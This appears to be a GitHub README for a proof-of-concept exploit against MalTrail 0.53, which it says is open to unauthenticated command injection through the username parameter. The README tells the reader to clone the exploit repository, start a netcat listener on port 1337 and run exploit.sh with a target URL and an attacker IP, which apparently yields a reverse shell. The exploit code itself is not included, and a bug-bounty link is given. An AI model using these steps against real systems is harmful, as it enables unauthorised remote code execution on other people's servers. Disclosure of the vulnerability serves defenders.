 # MalTrail - Command Injection / RCE

MalTrail - Command Injection / RCE PoC Exploit

![alt text](https://rvizx.github.io/maltrail-rce/img.png?raw=true)

MalTrail version `0.53` doesn't have proper validation in `username` parameter, which leads to unauthenticated command injection.

# Usage

```
git clone https://github.com/rvizx/maltrail-rce
cd maltrail-rce
chmod +x exploit.sh 
```

make sure to start a listener before executing the exploit.sh 

```
nc -lvnp 1337
```

```
./exploit.sh <target_url> <attacker_ip>
```

# notes

https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
